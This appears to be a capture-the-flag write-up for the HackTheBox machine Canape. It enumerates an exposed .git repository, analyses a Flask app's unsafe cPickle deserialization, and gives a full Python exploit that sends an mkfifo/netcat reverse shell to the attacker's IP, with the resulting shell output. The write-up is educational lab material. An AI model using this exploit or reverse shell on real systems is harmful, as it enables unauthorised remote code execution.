

<br />


<br />

OS -> Linux.

Difficulty -> Medium.

<br />

# Introduction:
<br />


<br />

# Enumeration:

<br />

We start by running the typical `nmap` scan to see which ports are open:

<br />

```bash
❯ nmap -p- 10.10.10.70 --open --min-rate 5000 -sS -T5 -Pn -n -sCV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-01 19:13 CET
Nmap scan report for 10.10.10.70
Host is up (0.93s latency).
Not shown: 65533 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE VERSION
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-trane-info: Problem with XML parsing of /evox/about
| http-git: 
|   10.10.10.70:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|     Last commit message: final # Please enter the commit message for your changes. Li...
|     Remotes:
|_      http://git.canape.htb/simpsons.git
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Simpsons Fan Site
65535/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8d:82:0b:31:90:e4:c8:85:b2:53:8b:a1:7c:3b:65:e1 (RSA)
|   256 22:fc:6e:c3:55:00:85:0f:24:bf:f5:79:6c:92:8b:68 (ECDSA)
|_  256 0d:91:27:51:80:5e:2b:a3:81:0d:e9:d8:5c:9b:77:35 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.12 seconds
```

<br />

Open Ports:

- `Port 80` -> http

- `Port 65535` -> OpenSSH

<br />

# Http Enumeration: -> Port 80

<br />

When listing the `website` we find a `fanpage` of the famous series `"The Simpsons"`:

<br />


<br />

Enumerating `manually` the page we found `two` interesting `paths`.

<br />

### 1.- /quotes:

<br />

Contains the most typical `quotations` of some `characters` in the series.

<br />



<br />

### 2.- /submit:

<br />

It has a `couple` of interesting `inputs` to test.

<br />


<br />

## Exposed .git:

<br />

We visit the `.git` exposed `directory` reported by `nmap`:

<br />


<br />

And we `dump` it on our `Machine` using the famous `tool` of GitHub -> [GitHack](https://github.com/lijiejie/GitHack):

<br />

```bash
❯ python3 GitHack.py http://10.10.10.70/.git
[+] Download and parse index file ...
[+] __init__.py
[+] static/css/bootstrap.min.css
[+] static/css/bootstrap.min.css.map
[+] static/css/custom.css
[+] static/js/bootstrap.min.js
[+] static/js/bootstrap.min.js.map
[+] templates/index.html
[+] templates/layout.html
[+] templates/quotes.html
[+] templates/submit.html
[OK] templates/submit.html
[OK] templates/layout.html
[OK] static/css/custom.css
[OK] templates/quotes.html
[OK] templates/index.html
[OK] __init__.py
[OK] static/css/bootstrap.min.css
[OK] static/js/bootstrap.min.js
[OK] static/js/bootstrap.min.js.map
[OK] static/css/bootstrap.min.css.map
```

<br />

`Browsing` through the `repo folders` we find a very interesting `"__init__.py"` script in which we find the `code` of the `different functions` in the `page`:

<br />

```python
import couchdb
import string
import random
import base64
import cPickle
from flask import Flask, render_template, request
from hashlib import md5


app = Flask(__name__)
app.config.update(
    DATABASE = "simpsons"
)
db = couchdb.Server("http://localhost:5984/")[app.config["DATABASE"]]

@app.errorhandler(404)
def page_not_found(e):
    if random.randrange(0, 2) > 0:
        return ''.join(random.choice(string.ascii_uppercase + string.digits) for _ in range(random.randrange(50, 250)))
    else:
	return render_template("index.html")

@app.route("/")
def index():
    return render_template("index.html")

@app.route("/quotes")
def quotes():
    quotes = []
    for id in db:
        quotes.append({"title": db[id]["character"], "text": db[id]["quote"]})
    return render_template('quotes.html', entries=quotes)

WHITELIST = [
    "homer",
    "marge",
    "bart",
    "lisa",
    "maggie",
    "moe",
    "carl",
    "krusty"
]

@app.route("/submit", methods=["GET", "POST"])
def submit():
    error = None
    success = None

    if request.method == "POST":
        try:
            char = request.form["character"]
            quote = request.form["quote"]
            if not char or not quote:
                error = True
            elif not any(c.lower() in char.lower() for c in WHITELIST):
                error = True
            else:
                # TODO - Pickle into dictionary instead, `check` is ready
                p_id = md5(char + quote).hexdigest()
                outfile = open("/tmp/" + p_id + ".p", "wb")
		outfile.write(char + quote)
		outfile.close()
	        success = True
        except Exception as ex:
            error = True

    return render_template("submit.html", error=error, success=success)

@app.route("/check", methods=["POST"])
def check():
    path = "/tmp/" + request.form["id"] + ".p"
    data = open(path, "rb").read()

    if "p1" in data:
        item = cPickle.loads(data)
    else:
        item = data

    return "Still reviewing: " + item

if __name__ == "__main__":
    app.run()
```

<br />

`Highlights of the script`:

- CouchDB is being used behind, which may be interesting in the future.

- The Python2.7 cPickle library is used, which if poorly implemented can lead to a Deserialization Attack.

- There is a new interesting path named /check.

<br />

### /submit:

<br />

```python
 @app.route("/submit", methods=["GET", "POST"])
 def submit():
     error = None
     success = None
 
     if request.method == "POST":
         try:
             char = request.form["character"]
             quote = request.form["quote"]
             if not char or not quote:
                 error = True
             elif not any(c.lower() in char.lower() for c in WHITELIST):
                 error = True
             else:
                 # TODO - Pickle into dictionary instead, `check` is ready
                 p_id = md5(char + quote).hexdigest()
                 outfile = open("/tmp/" + p_id + ".p", "wb")
         outfile.write(char + quote)
         outfile.close()
             success = True
         except Exception as ex:
             error = True
 
     return render_template("submit.html", error=error, success=success)
```

<br />

As we can see, our inputs `(character & quote)` are being recolected in `two variables`, char and quote respectivly. It should `be noted` that the `input "character"` has a small `validation`, since for it to be `valid` it has to `contain` a `character` from the `whitelist`.

After that, the program `sums` the `values` of these `two variables` and applies an `md5` encoding (weak encoding, easy to guess and reproduce) to create a `file` with this name preceded by `/tmp` and ending in the `.p` extension with our `unencoded entries` as `content`.

<br />

### /check:

<br />

```python
@app.route("/check", methods=["POST"])
def check():
    path = "/tmp/" + request.form["id"] + ".p"
    data = open(path, "rb").read()

    if "p1" in data:
        item = cPickle.loads(data)
    else:
        item = data

    return "Still reviewing: " + item

if __name__ == "__main__":
    app.run()
```

<br />

Apparently, this `function` consists of a `POST request` in which we will have to add an `"id"` field with the `md5 name` of the `file` that we have `previously created` with the `submit function` to be able to `list` the `content` of it.

Finally, the function has a `condition` that if the `contents` of the file `contain "p1"`, `cPickle.loads()` will be used to `deserialize` its contents `without` any `validation`, fully `relying` on the `user's input`.

<br />

## Pickle Deserialization Attack Explotation:

<br />

Once we have `understood` the `logic` of each and every one of the `functions` of the website, we proceed to `exploit` the `Deserialization Attack` present in the `"cPickle.loads()"` function.

To do that I `have created` the following `Python2.7` exploit:

<br />

```python 
#!/usr/bin/env python2.7

# Author TheRedP4nther
# Script to automate the Pickle Deserialization Attack of HTB Canape machine

import requests
import os
import hashlib
import cPickle
import signal
import sys

# Global Variables.
submit_url = "http://10.10.10.70/submit"
check_url = "http://10.10.10.70/check"

# Exploit Class.
class Exploit(object):
    
    def __init__(self, command):

        self.command = command

    def __reduce__(self):
        return (os.system, (self.command,))
    

# Functions.
def def_handler(sig, frame): # Forced exit.
    print "\n[+] Leaving the program...\n" 
    sys.exit(1)

# Ctrl+C 
signal.signal(signal.SIGINT, def_handler) # Capture the keyboard key.

def makeRequests():
    if len(sys.argv) != 3:
        print "\n[!] Execute: python2.7 {} [IP] [PORT]\n".format(sys.argv[0]) # Intructions.
        sys.exit(1)

    ip = sys.argv[1]
    port = sys.argv[2]
    command = "rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc {} {} >/tmp/f; Homer".format(ip, port) # Command that we want to execute with the Whitelist Character.
    char = cPickle.dumps(Exploit(command)) # Serialize the command. 
    quote = "Hola"
    submit_data = {
            "character": char,
            "quote": quote
            }    
    response = requests.post(submit_url, data=submit_data) # Request to create the file.
    if "Thank you for your suggestion!" in response.text:
        encoded_input = hashlib.md5(char+quote).hexdigest() # Encode our input to use in the next request.
        check_data = {"id": encoded_input}
        response2 = requests.post(check_url, data=check_data) # Request to exploit the Deserialization Attack.
    else:
        print "\n[!] There's something wrong with your submit request! Try to run the program again!\n"

if __name__ == '__main__':
    makeRequests() # Call to the exploit function.
```

<br />

We execute the exploit:

<br />

```bash
❯ python2.7 10.10.14.11 443
```

<br />

Check the listener and... YES!!

<br />

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.10.70] 42686
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

<br />

Intrusion ready!! Come on with the Privilege Escalation!!

<br />

# Privilege Escalation: www-data -> homer

<br />

